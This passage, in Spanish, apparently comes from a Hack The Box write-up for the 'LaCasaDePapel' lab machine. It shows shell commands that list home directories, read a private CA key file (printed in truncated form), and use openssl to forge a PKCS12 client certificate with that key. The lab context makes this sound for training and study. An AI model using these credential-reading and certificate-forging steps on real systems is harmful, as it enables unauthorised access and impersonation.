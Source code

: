 Por ejemplo listar directorios, en una consola interactiva de php utilizamos `print_r` para comandos como `scandir` pero aquí no, ya que se trata de
algún script personalizado.

```php
print_r(scandir("/home");
PHP Parse error: Syntax error, unexpected ';', expecting ')' on line 1

scandir("/home");
=> [ ".", "..", "berlin", "dali", "nairobi", "oslo", "professor", ]

file_get_contents("/home/nairobi/ca.key");
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   ...
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
   """
```
Nos copiamos esa `ca.key` para utilizarla mas adelante. 

Tambien podemos ver que hay ciertos archivos
```bash
scandir("/home/berlin/downloads");
=> [ ".", "..", "SEASON-1", "SEASON-2", "Select a season", ]

scandir("/home/berlin/downloads/SEASON-1");
=> [".", "..", "01.avi", "02.avi", "03.avi", "04.avi",... 

scandir("/home/berlin/.ssh");
PHP Warning:  scandir(/home/berlin/.ssh): failed to open dir: Permission denied in phar://eval()'d code on line 1
```

Tenemos la `ca.key`, pero necesitamos un archivo `.pem` de tipo `x509` válido... ¿De dónde lo sacamos? Del propio certificado
```bash
$: openssl s_client --connect lacasadepapel.htb:443
...
Server certificate
-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
...
```
Creamos así el certificado `pkcs12`
```
$: openssl pkcs12 -export -in cert.pem -inkey ca.key -out hackthebox.pkcs12
Enter Export Password:
Verifying - Enter Export Password:
```
